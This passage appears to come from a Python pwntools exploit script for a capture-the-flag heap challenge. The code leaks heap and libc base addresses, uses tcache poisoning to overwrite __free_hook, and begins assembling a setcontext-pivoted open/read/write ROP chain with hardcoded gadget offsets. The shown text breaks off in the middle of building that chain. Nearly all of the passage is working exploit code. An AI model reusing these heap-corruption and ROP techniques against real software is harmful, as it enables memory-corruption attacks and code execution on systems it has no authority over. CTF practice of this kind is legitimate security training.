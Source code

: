 ```
  s.sendlineafter(">> ", str(size)) 
  s.sendafter(">> ", data)
  
def Free():
  s.sendlineafter(">> ", "4")

def View():
  s.sendlineafter(">> ", "5")

Alloc(0x10, "\n")
View()
heap_leak = u64(s.recv(6)+b"\x00\x00")
heap_base = heap_leak - 0x220a
print("heap_leak =", hex(heap_leak))
print("heap_base =", hex(heap_base))

Alloc(1100, "A"*4)
Free()
Write(heap_base+0x20a0, heap_base+0x1ef0)

# Make 0xf0 size chunk for free() 
Alloc(0x60, "\n")
Alloc(0x60, "\n")
Alloc(0x60, "\n")
Alloc(0x68, p64(0)*11+p64(0xf1))

# libc leak
Alloc(0xe0, "\n")
Alloc(0xe0, "A"*15+"\n")
View()
s.recvuntil("A"*15+"\n")
libc_leak = u64(s.recv(6)+b"\x00\x00")
libc_base = libc_leak - 0x1ecc40
free_hook = libc_base + libc.sym.__free_hook

print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

setcontext   = libc_base + libc.sym.setcontext
mov_rdx_rdi  = libc_base + 0x1518b0 # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]; 
ret_addr     = libc_base + 0x22679　# ret;
syscall_ret  = libc_base + 0x630d9  # syscall; ret;
pop_rax_ret  = libc_base + 0x47400  # pop rax; ret;
pop_rdi_ret  = libc_base + 0x23b72  # pop rdi; ret;
pop_rsi_ret  = libc_base + 0x2604f  # pop rsi; ret;
pop_rdx_ret  = libc_base + 0x119241 # pop rdx; pop r12; ret;
xchg_eax_edi = libc_base + 0xf1b95  # xchg eax, edi; ret;

# Write __free_hook in tcachebins 
Free()
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))
pause()

for i in range(5):
  Alloc(0x70, "\n")

# Write ROP chain of Open/Read/Write in heap memory
buf  = b"A"*0x20
buf += p64(setcontext+61)
buf += b"B"*0x78
buf += p64(heap_base + 0x2370) # rsp
buf += p64(ret_addr)           # rcx  
```
